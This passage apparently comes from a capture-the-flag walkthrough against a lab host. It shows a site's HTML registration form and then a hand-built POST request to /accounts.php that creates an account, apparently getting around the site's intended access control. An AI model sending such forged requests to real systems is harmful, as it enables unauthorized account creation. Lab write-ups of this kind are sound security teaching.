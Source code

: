 ```html
        <form role="form" method="post" action="accounts.php">
            <div class="uk-margin">
                <div class="uk-inline">
                    <span class="uk-form-icon" uk-icon="icon: user"></span>
                    <input type="text" name="username" class="uk-input" id="username" placeholder="Username">
                </div>
            </div>
            <div class="uk-margin">
                <div class="uk-inline">
                    <span class="uk-form-icon" uk-icon="icon: lock"></span>
                    <input type="password" name="password" class="uk-input" id="password" placeholder="Password">
                </div>
            </div>
            <div class="uk-margin">
                <div class="uk-inline">
                    <span class="uk-form-icon" uk-icon="icon: lock"></span>
                    <input type="password" name="confirm" class="uk-input" id="confirm" placeholder="Confirm Password">
                </div>
            </div>
            <button type="submit" name="submit" class="uk-button uk-button-default">

```

I started off by getting the post request to `/login.php` as my template then I made the following changes.
1. Change the post & Referer to `/accounts.php`
2. Craft my arguments
	1. The first argument was "username" 
	2. The second was "password"
	3. The third was "confirm"
	4. The fourth was "submit" (we can leave this blank)
3. change the Content-Length to the appropriate length 

```
POST /accounts.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: http://10.10.11.104
Connection: close
Referer: http://10.10.11.104/accounts.php
Cookie: PHPSESSID=aj9nus42p8d3papn711r6hjqq3
Upgrade-Insecure-Requests: 1

username=zonifer&password=password&confirm=password&submit=
```
